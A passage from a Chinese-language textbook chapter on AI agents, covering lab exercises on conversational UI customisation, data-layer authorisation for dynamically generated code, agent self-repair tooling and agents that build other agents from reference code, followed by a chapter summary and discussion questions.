實驗 5-14 ★★：對話式介面定製系統
實驗目標：實現使用者透過自然語言對話即時定製軟體介面的能力，驗證熱載入機制支援的程式碼生成在提供個人化使用者體驗中的有效性。
技術方案：建構基礎 chatbot 應用（React 前端 + FastAPI 後端），前後端均執行在開發模式下支援熱載入（React 的 HMR，FastAPI 的 reload）。使用者在對話中提出 UI 定製需求（顏色、字型、佈局、元件位置等），Agent 自主修改程式碼。熱載入機制自動偵測檔案變化，前端重新編譯重新整理，使用者即時看到介面變化。支援多輪迭代定製。
動態軟體在帶來彈性的同時，也改變了傳統的安全前提。過去應用程式的業務程式碼經過開發、審查、測試與部署後，會在一段時間內維持相對穩定，因此授權檢查通常放在應用層。當 Agent 能隨時生成或重寫介面、工作流程，甚至資料存取程式碼時，這一層就不再穩定。新生成的程式碼可能漏掉細微的授權檢查、暴露原本隱藏的欄位，或透過另一條呼叫路徑繞過既有檢查。無論原因是普通的生成錯誤，還是提示注入後產生的危險程式碼，結果都一樣：業務程式碼原本應維持的權限邊界可能在無聲無息間被破壞。
因此，動態軟體的安全目標不應是「確保 AI 正確寫出每一個授權檢查」，而應是即使 AI 寫出了錯誤程式碼，權限約束仍然無法被繞過。如果授權檢查存在於動態生成的業務邏輯中，它們與需要被限制的程式碼處在同一個信任域。提示詞、測試和程式碼審查可以降低錯誤率，但無法窮舉未來生成版本引入的所有執行路徑，也不能作為最終安全邊界。
更穩健的架構是把信任邊界下移到資料層。動態生成的應用程式碼負責呈現、工作流程和業務編排，而穩定且經過人工審查的機制負責強制規則，決定誰能對哪些資料做什麼。資料庫的資料列層級安全性可將使用者限制在自己的租戶記錄；約束和驗證器可拒絕非法狀態；受控的檢視表、儲存程序或資料存取服務只公開核准的操作。每次讀寫還應攜帶由可信執行環境綁定的存取上下文，其中包含使用者、租戶、角色或 Agent 身分。生成程式碼只取得這個受限身分，不能偽造身分或取得繞過規則的高權限資料庫憑證。即使省略了自身的檢查，資料層仍會拒絕未授權操作。
將授權下移不代表把全部業務邏輯塞進資料庫。應用層仍可執行預檢查以提供快速回饋，但最終裁決權必須留在資料層。同一條規則可以在上層改善體驗、在下層提供保證。前提是所有資料存取路徑都經過可信資料層，生成程式碼不能直接連線繞過它。如此一來，上層可以持續變動，而不可妥協的權限約束留在不會隨每次生成重寫的層中。這就是第一章三層護欄中最難被繞過的資料層。
實驗 5-15 ★★★：動態軟體的權限內嵌資料物件
實驗目標：建構一個允許應用程式碼動態生成或重寫、同時在資料層強制授權和資料完整性的物件儲存。驗證生成程式碼無法藉由跳過狀態轉換、寫入超出範圍的值或跨租戶讀取來穿越穩定的資料邊界。
技術方案：在 PostgreSQL 之上提供 Python 物件儲存中介層。資料型別宣告自己的權限規則、存取上下文、驗證器、物件關係與後果反應；每次讀寫物件都依序通過權限與驗證流水線、持久化及參照完整性驗證等。
驗收標準：有效的招聘流程更新應成功；資料層應拒絕跳過候選人狀態轉換、寫入超出職位範圍的薪資，以及跨租戶讀取。
程式碼創造程式碼：Agent 自舉
前面幾節展示了程式碼生成在各個領域的應用——從數學思考到文件創作再到介面定製。如果我們把這些能力推向極限，會出現一個自然的問題：Agent 能不能用程式碼生成能力來創造另一個 Agent？

Agent 的自我修復：OpenClaw Doctor。
Agent 自舉的一個重要前提是自我修復能力。OpenClaw 的 doctor 命令正是這種能力的體現——它能自動偵測三類問題：
- 配置異常：過期的 OAuth token、遺留的配置格式、埠衝突
- 狀態問題：陳舊的會話鎖檔案、外掛依賴缺失
- 服務健康問題：閘道器未執行、沙盒映像缺失
然後透過分層修復策略自動解決：安全的修復（配置歸一化、鎖檔案清理）自動執行；有風險的操作（服務重啟、強制覆蓋配置）需要使用者確認。
這裡要避免一個誇大：過期 token、鎖檔案、埠衝突這類高頻問題，本身就有明確的偵測規則和固定的修復動作，doctor 以一組確定性檢查為基礎先把它們覆蓋掉——這與傳統維運指令碼並無本質不同。真正體現 Agent 能力的是第二層：對確定性規則未覆蓋的疑難問題，doctor 再把它交給 LLM 分析錯誤日誌、理解設定檔案的語義、推斷問題的因果關係，生成針對性的修復方案。確定性檢查保證常見問題被穩定修復，LLM 兜底應對長尾疑難——兩層配合，doctor --fix 才能自動解決相當一部分常見閘道器問題。這種「Agent 修復 Agent」的模式，當 Agent 的工作物件不再是外部系統、而是它自身的執行環境時，自我修復能力就從系統介面卡升級為了 Agent 自舉的基礎設施。
讓 Agent 編寫 Agent 的關鍵技巧。
創造高品質 Agent 遠比生成普通應用程式碼複雜，因為它需要對 Agent 架構模式、最佳實踐和常見陷阱有深刻理解。如果缺乏這種領域專業知識，即使最強大的程式碼生成模型也可能創造出架構上有嚴重缺陷的 Agent。常見缺陷包括：
- 上下文管理的隨意性：未採用第二章討論的標準上下文格式，將軌跡轉為純文字塞進上下文，忽略結構化訊息帶來的 KV Cache 最佳化，工具呼叫迴圈存在邊界 bug
- 工具設計的不規範：描述簡略、缺少使用邊界說明和負面清單、參數缺乏具體示例
- 技術選型的滯後性：傾向使用訓練資料中最常見但已過時的模型和 API。解決方案：維護 SOTA 知識庫或賦予 Agent 搜尋能力
- 外部生態的脫節：使用廢棄 API、不再維護的庫或有缺陷的模式
解決這些問題的最有效路徑，不是在提示詞中窮盡所有規則，而是提供高品質 Agent 實現作為參考範例，引導程式碼生成 Agent 在此基礎上修改，而非從零開始。
「基於範例的生成」優勢明顯：範常式式碼本身就是最佳實踐的載體，Agent 在範例上改比從零寫更容易做對，架構上的好選擇會自然保留下來，而不需要在提示詞裡把每一條規則都說清楚。
Agent 接到開發新 Agent 的任務時，應首先複製自己的程式碼（或其他經過驗證的高品質實現），然後針對性修改：調整系統提示詞匹配新角色，替換或增刪工具適應新功能，修改業務邏輯但保留架構框架。這種「自我複製並適應性修改」的模式，既保證新 Agent 繼承核心技術優勢，又允許在特定維度上差異化——就像生物學中的基因複製加變異。
實驗 5-16 ★★★：開發一個能創造 Agent 的 Agent
實驗目標：建構具備超程式設計（Metaprogramming，即編寫能生成或修改其他程式的程式）能力的 Coding Agent，能根據使用者需求自動建立新 Agent 系統，確保遵循最佳實踐。
技術方案：為 Coding Agent 提供高品質 Agent 實現作為參考範例（可使用 ch5/coding-agent 專案本身）。當接到建立新 Agent 的需求時，Agent 首先複製這個範常式式碼，然後基於使用者的具體需求進行針對性修改。
驗收標準：生成的 Agent 能成功執行並完成基本任務。驗證採用標準訊息格式和工具呼叫協定，使用當前推薦的模型和 API。測試多輪對話中上下文和狀態管理的正確性。對比從零生成和基於範例修改兩種模式，驗證後者在品質和效率上的優勢。

本章小結
本章討論的核心始終是同一件事：程式碼不只是寫程式的工具，它是 Agent 形式化思考和精確表達的語言。
Harness 工程那一節的核心結論是：Coding Agent 之所以成熟度高，不是因為程式碼生成模型特別強，而是因為軟體工程幾十年攢下的基礎設施——測試套件、型別系統、版本控制——天然構成了一套強大的 Harness。這個結論值得推廣到其他 Agent 場景。故障與錯誤恢復一節則給出了同一主題的另一面：Agent 的可靠性不取決於模型犯不犯錯，而取決於每類故障是否都有對應的偵測、恢復、接管與終止路徑。
第二部分展示了程式碼生成在程式設計之外的廣泛價值，對應正文的六個維度：
- 思考工具：藉助符號計算和約束求解彌補機率思考的不足
- 業務規則約束：以無歧義方式表達業務規則，在不可逆操作場景中提供確定性安全防線——這種安全保障的價值遠超實現成本
- 多媒體生成：透過提議者～審核者機制建立 PPT、影片等多模態內容；程式碼生成與生成模型的選擇取決於產物的內在複雜度與精度要求
- 系統介面卡：自動追蹤格式演化實現日誌解析和問題診斷的完全自動化
- 生成式 UI：動態建立表單、視覺化圖表甚至完整可定製應用，突破純文字限制
- Agent 自舉：用程式碼修復和創造同類 Agent，實現能創造 Agent 的 Agent
程式碼對 Agent 的價值在於：它既是完成任務的手段，也是積累知識、創造工具、最佳化自身的機制——一種真正的「元能力」。
至此，我們已經把上下文、知識、工具與程式碼能力組合成通用 Agent 的基礎架構，而程式碼生成正是其中通用性最強的元能力。但前五章仍預設 Agent 與世界輪流行動。第六章將補上「建構 Agent」的最後一塊，把觀察與動作空間擴展到非同步事件、語音、螢幕和物理世界；完成這一步後，第七章再轉向評估與持續改進。
思考題
- ★★ 程式碼生成被稱為 Agent 的「元能力」。但程式碼執行引入了安全風險——Agent 生成的程式碼可能包含漏洞、無限迴圈或資源耗盡。沙盒隔離能解決部分問題，但也限制了程式碼能力（比如無法存取網路或檔案系統）。如何在安全性和能力之間找到最優平衡點？
- ★★★ Agent 自舉——能創造 Agent 的 Agent——實現了「智慧的自我繁殖」。但每次自舉都可能引入新的偏差或錯誤，這種錯誤會在代際間累積嗎？如何防止 Agent 自舉的退化？
- ★★ 程式碼生成 Agent 在處理日誌解析時，能自動跟隨格式演化。但如果格式變化是一個 bug 而非預期改動，Agent 的適應性反而掩蓋了問題。Agent 應該如何區分「需要適應的變化」和「需要報告的異常」？
- ★★ 本章在 PPT 生成、影片編輯和日誌視覺化中反覆使用提議者～審核者機制。如果 Reviewer 的審美偏好與目標使用者不一致，比如 Reviewer 認為資訊密度合理但使用者覺得太擁擠，回饋迴圈會收斂到錯誤的局部最優。如何讓使用者的偏好回饋也參與 Reviewer 迴圈？
- ★★ 本章展示了 Coding Agent 把執行和除錯中獲得的經驗沉澱回程式碼庫的多種方式——寫入知識庫檔案、更新架構文件、維護專案指令檔案、把操作序列固化為程式碼。如果把這些經驗進一步提煉為系統提示詞中的規則，規則集會隨時間不斷膨脹。如何對沉澱下來的規則做「垃圾回收」——識別並清理冗餘或過時的條目？為什麼一次成功的程式碼修改還不能直接視為第九章所說的持續進化？
- ★「對遠端工作友好的團隊往往也對 AI Agent 友好。」你所在的團隊或組織，在知識文件化方面距離「AI-ready」還有多遠？最大的障礙是什麼？
- ★★★ Simon Willison 提出了 Agent 的「致命三要素」（存取私有資料、暴露於不受信任內容、具備外部通訊能力），本章在此基礎上增加了第四個——持久記憶。在一個需要同時處理這四種要素的生產環境中，你會如何設計安全策略？
- ★★ Artifact 模式讓 Agent 生成 SQL 或視覺化程式碼，由前端直接執行，繞過 LLM 處理大量資料。這種「Agent 生成程式碼，系統執行程式碼」的分工模式，與傳統的「Agent 直接給出答案」的模式相比，有什麼優劣？生成的 SQL 可能執行破壞性操作，生成的 HTML 可能包含漏洞。如何確保系統的安全性？
- ★★ 將業務規則編碼為工具內部基於資料庫真值的校驗，並用參數設計引導模型在呼叫前核對政策條件，本質上是用程式碼結構來約束 Agent 行為。這種「程式碼即規則」的模式相比自然語言規則有什麼優勢和局限？
本節的故障分類與機制分析基於對 Claude Code 等生產級 Agent 實現的原始程式碼研究。具體實現隨版本快速演進，本節只提煉其中穩定的工程原則。 ↩︎
這條忠誠度光譜及守則的完整評測見 Li, Bojie and Noah Shi. Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents. arXiv:2606.30383, 2026. ↩︎
筆者的研究專案網站見 https://01.me/research/ ，其中每個專案都配有一個持續更新的互動式網站。 ↩︎